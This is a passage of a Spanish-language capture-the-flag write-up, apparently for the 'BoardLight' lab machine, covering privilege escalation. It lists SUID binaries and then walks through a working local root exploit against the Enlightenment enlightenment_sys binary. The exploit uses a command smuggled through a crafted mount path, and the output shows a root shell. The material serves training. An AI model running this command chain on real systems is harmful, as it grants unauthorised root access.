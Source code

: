 ## Escalada de Privilegios
Se realizó la enumeración básica, viendo los permisos SUID.
~~~bash
larissa@boardlight:~$ find / -type f -perm -04000 -ls 2>/dev/null
     2491     16 -rwsr-xr-x   1 root     root        14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
      608     16 -rwsr-sr-x   1 root     root        14488 Apr  8  2024 /usr/lib/xorg/Xorg.wrap
    17633     28 -rwsr-xr-x   1 root     root        26944 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
    17628     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
    17627     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
    17388     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
     2368     52 -rwsr-xr--   1 root     messagebus    51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
     5278    468 -rwsr-xr-x   1 root     root         477672 Jan  2  2024 /usr/lib/openssh/ssh-keysign
    10039    388 -rwsr-xr--   1 root     dip          395144 Jul 23  2020 /usr/sbin/pppd
     2211     44 -rwsr-xr-x   1 root     root          44784 Feb  6  2024 /usr/bin/newgrp
      230     56 -rwsr-xr-x   1 root     root          55528 Apr  9  2024 /usr/bin/mount
     5609    164 -rwsr-xr-x   1 root     root         166056 Apr  4  2023 /usr/bin/sudo
     2245     68 -rwsr-xr-x   1 root     root          67816 Apr  9  2024 /usr/bin/su
     5334     84 -rwsr-xr-x   1 root     root          85064 Feb  6  2024 /usr/bin/chfn
      231     40 -rwsr-xr-x   1 root     root          39144 Apr  9  2024 /usr/bin/umount
     5337     88 -rwsr-xr-x   1 root     root          88464 Feb  6  2024 /usr/bin/gpasswd
     5338     68 -rwsr-xr-x   1 root     root          68208 Feb  6  2024 /usr/bin/passwd
      375     40 -rwsr-xr-x   1 root     root          39144 Mar  7  2020 /usr/bin/fusermount
     5335     52 -rwsr-xr-x   1 root     root          53040 Feb  6  2024 /usr/bin/chsh
      484     16 -rwsr-xr-x   1 root     root          14728 Oct 27  2023 /usr/bin/vmware-user-suid-wrapper
~~~
Al revisar la salida, se puede ver un archivo que no es común y podria ser vulnerable (/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys).
Asi que averiguando en internet, se pudo encontrar un exploit público que afecta al binario (enlightenment) (https://www.exploit-db.com/exploits/51180).
~~~
./exploit.sh
~~~
Al correr el exploit, este no funciono y me bugueo la bash, asi que se me ocurre hacer dos cosas:
- Probar manualmente paso a paso
- Buscar otro exploit
Al ver el código del exploit, no es muy largo por lo que se procede a replicar paso a paso (literalmente copiar y pegar).
~~~bash
larissa@boardlight:/tmp$ mkdir -p /tmp/net
larissa@boardlight:/tmp$ mkdir -p "/dev/../tmp/;/tmp/exploit"
larissa@boardlight:/tmp$ echo "/bin/sh" > /tmp/exploit
larissa@boardlight:/tmp$ chmod a+x /tmp/exploit
larissa@boardlight:/tmp$ /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
~~~
De esta forma de logro obtener una sesion como root.

---